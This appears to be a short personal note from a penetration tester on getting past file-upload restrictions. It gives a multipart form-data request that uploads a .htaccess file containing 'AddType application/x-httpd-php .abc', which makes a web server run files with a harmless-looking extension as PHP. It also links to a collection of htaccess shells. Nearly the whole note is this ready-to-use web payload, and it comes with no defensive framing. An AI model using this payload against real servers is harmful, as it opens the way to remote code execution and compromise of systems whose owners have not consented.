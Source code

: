 ```yaml
---
title: .htaccess
updated: 2023-11-20 22:40:24Z
created: 2023-11-20 11:39:27Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


Upload a **.htaccess** file to bypass protections around file upload restrictions 

```
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess" <!-- Specify the name of config file -->
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

https://github.com/wireghoul/htshells
